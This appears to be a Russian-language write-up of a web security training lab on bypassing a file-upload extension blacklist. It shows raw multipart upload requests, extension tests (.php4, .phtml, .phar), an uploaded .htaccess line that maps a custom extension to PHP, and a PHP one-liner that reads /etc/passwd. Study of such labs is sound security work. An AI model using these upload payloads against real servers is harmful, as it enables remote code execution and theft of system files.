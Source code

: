 Лаборатория содержит уязвимую функцию загрузки изображения. Определенные расширения файлов включены в черный список, но эта защита может быть обойдена из -за фундаментального недостатка в конфигурации этого черного списка.

## Дано

учетные данные: `wiener:peter`

## Задача

загрузите базовую веб-оболочку PHP, а затем используйте ее для извлечения содержимого файла. `/home/carlos/secret`

# Разведка

### 1. Формат отправки
```
-----------------------------291081305612230447413769182849
Content-Disposition: form-data; name="avatar"; filename="icons8-google-chrome-200.png"
Content-Type: image/png


-----------------------------291081305612230447413769182849
Content-Disposition: form-data; name="user"

wiener
-----------------------------291081305612230447413769182849
Content-Disposition: form-data; name="csrf"

Pjod2SEEPR1snV0YWx40JSsHrwiBvtli
-----------------------------291081305612230447413769182849--
```
- Тест смены Content-Type
	text/html - 200
	application/x-httpd-php - 200
- Расширение .php не поддерживает 
- ==Сервер Apache на ubuntu==
```
Sorry, php files are not allowed
Sorry, there was an error uploading your file.<p>	
```
-  Тест расширений php
	1. ==.php4 — `The file avatars/myexplot.php4 has been uploaded.`== 
		==Ответ: <?php echo file_get_contents('/etc/passwd'); ?>==
	1. .phtml — еще одно расширение для PHP-файлов.
	2. .phar — архивы PHP, которые могут содержать исполняемый код.

#### Мини итог. 
Чёрный список не полный и пропускает расширение .php4
Сработала 2 линия защиты которая не дала выполнить код из за того что MIME-тип не был явно настроен для выполнения

### 2. Проверка на внедрения конфигурации веб-сервера

- Так как мы работаем по веб серверу `Apache/2.4.41 (Ubuntu)` то для него идёт ==расширение `.htaccess`==
```
AddType application/x-httpd-php .shell
```
указывает, что файлы с расширением .shell должны обрабатываться как PHP-файлы. 

- Ответ 200 The file avatars/.htaccess has been uploaded.

# Атака

Загружаем файл с shell расширением и получаем ключ
```

-----------------------------291081305612230447413769182849
Content-Disposition: form-data; name="avatar"; filename="myexplot.shell"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/etc/passwd'); ?>
-----------------------------291081305612230447413769182849
Content-Disposition: form-data; name="user"

wiener
-----------------------------291081305612230447413769182849
Content-Disposition: form-data; name="csrf"

Pjod2SEEPR1snV0YWx40JSsHrwiBvtli
-----------------------------291081305612230447413769182849--
```
Ответ
![[Pasted image 20250126104106.png]]
